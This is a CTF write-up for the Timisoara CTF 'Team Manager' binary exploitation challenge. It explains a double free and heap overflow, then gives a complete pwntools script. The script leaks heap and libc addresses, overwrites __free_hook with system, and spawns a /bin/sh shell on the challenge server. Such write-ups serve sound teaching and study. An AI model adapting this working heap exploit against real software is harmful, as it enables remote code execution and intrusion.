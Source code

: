 # Team Manager [300]
**Category:** Binary Exploitation 

> I found the team manager service used for Timisoara CTF. Do you think it is secure?  
nc 89.38.208.144 11114

## Write-up
Running the binary instantly shows this is a standard heap challenge:
```
Welcome to the Timctf Team Manager
1: Add player
2: Remove player
3: Edit player
4: View player
5: View team
0: Exit
```

After analyzing the binary using Ghidra, a few observations can be made:
* Chunks on the heap can be freed multiple times without checks. There is a double free() vulnerability, which leaks an address pointing to the heap.
* Input is vulnerable to a heap overflow. By overflowing the "comments" section for one chunk, we can overwrite addresses on the following chunk.

The exploit follows the following order:

1. **Leak heap address**  
Leak the heap address using the double free() vulnerability. The address is stored in the "reversing and exploitation" and "crypto" areas in the heap. Viewing the team outputs the leaked heap address.

2. **Leak printf address**  
Using the heap overflow, overwrite the pointer to the "comments" section in the second chunk with the address of `printf` in the `GLOBAL OFFSET TABLE (GOT)`.Viewing the second player outputs the leaked `printf` address.

3. **Calculate libc base**  
Standard ret2libc procedure. Libc base can be calculated using `printf - printf_offset`, where `printf` is the leaked address and `printf_offset` is the address of `printf` in libc. With libc base value, the address of `__free_hook` and `system` can be calculated using `libc_base + system_offset` and `libc_base + __free_hook_offset` respectively.

4. **Overwrite __FREE_HOOK pointer with system**  
Overwrite the pointer to the "comments" section in the second chunk with the address of `__free_hook`. This makes the pointer point to the `__free_hook` instead. `__free_hook` can then be overwritten with the address of `system` by editing the "comments" of the second chunk. Calling free() now calls system() instead.

5. **Write /bin/sh into heap address**
Write the string `/bin/sh\x00` (*0x0068732f6e69622f* in hex) into the leaked heap address. The argument for free() is stored in this address when free() is called. When calling free() on first chunk, system(/bin/sh) is called instead, which executes a shell.

Here's the final exploit:
```python
from pwn import *
from LibcSearcher import LibcSearcher
import sys

config = {
    "elf" : "./timctf_manager",
    "libc" : "./libc-2.27.so",
    "ld" : "./ld-2.27.so",
    "HOST" : "89.38.208.144",
    "PORT" : 11114,
}

def add(pid, name, reversing, web, crypto, forensics, comment):
	sla("0: Exit", "1")
	sla("Enter player id (1-4) ", str(pid))
	sla("Player's name: ", name)
	sla("Player's skill at reversing and exploitation: ", str(reversing)) 
	sla("Player's skill at web exploit: ", str(web))
	sla("Player's skill at crypto: ", str(crypto))
	sla("Player's skill at forensics: ", str(forensics))
	sla("Extra note/comment: ", comment)

def remove(pid):
	sla("0: Exit", "2")
	sla("Enter player id (1-4) ", str(pid))

def edit(pid, name, reversing, web, crypto, forensics, comment):
	sla("0: Exit", "3")
	sla("Enter player id (1-4) ", str(pid))
	sla("Player's name: ", name)
	sla("Player's skill at reversing and exploitation: ", str(reversing)) 
	sla("Player's skill at web exploit: ", str(web))
	sla("Player's skill at crypto: ", str(crypto))
	sla("Player's skill at forensics: ", str(forensics))
	sla("Extra note/comment: ", comment)

def viewplayer(pid):
	sla("0: Exit", "4")
	sla("Enter player id (1-4) ", str(pid))

def viewteam():
	sla("0: Exit", "5")

def tohex(val, nbits):
  return hex((val + (1 << nbits)) % (1 << nbits))

def exploit(p):
	print_menu = 0x00400827
	printf_got = elf.got['printf']
	data  = elf.get_section_by_name(".data").header.sh_addr

	add(1, "", 1, 2, 3, 4, "")
	add(2, "", 1, 2, 3, 4, "")
	remove(1)
	remove(1)
	viewteam()

	ru('reversing and exploitation: ')
	lo = int(p.recvline().strip())
	lo = str(tohex(lo, 32))[2:]
	ru("crypto: ")
	hi = str(hex(int(p.recvline().strip())))
	leak = int(hi + lo, 16)

	payload = "\x90"*264 + p64(0x61) + p32(2)*4 + p64(printf_got)

	edit(1, "", 1, 1, 1, 1, payload)
	viewplayer(2)
	ru("Extra note/comment: ")

	printf = u64(r(8))
	base = printf - libc.symbols['printf']
	free_hook = base + libc.symbols['__free_hook']
	system = base + libc.symbols['system']
	
	payload = "\x90"*264 + p64(0x61) + p32(2)*4 + p64(free_hook)
	edit(1, "", 1, 1, 1, 1, payload)
	edit(2, "", 2, 2, 2, 2, p64(system))

	payload = "\x90"*264 + p64(0x61) + p32(2)*4 + p64(leak)
	edit(1, "", 1, 1, 1, 1, payload)
	edit(2, "", 2, 2, 2, 2, p64(0x0068732f6e69622f))
	remove(1)
	
	p.interactive()

if __name__ == "__main__":
    elf = context.binary = ELF(config["elf"])

    if "libc" in config.keys() and config["libc"]:
        libc = ELF(config["libc"])

    if sys.argv[-1] == "remote":
        p = remote(config["HOST"], config["PORT"])
    else:
        if "libc" in dir(): 
            p = process([config["ld"], config["elf"]], env={"LD_PRELOAD" : config["libc"]})
        else: 
            p = process(config["elf"])

        pause()

    sl = lambda a: p.sendline(a)
    sla = lambda a,b: p.sendlineafter(a,b)
    r = lambda a: p.recv(a)
    ru = lambda a: p.recvuntil(a)
    lg = lambda a : log.info(a)

    exploit(p)
```

**Flag:** TIMCTF{Heap_overfl0ws_are_really_B4D}
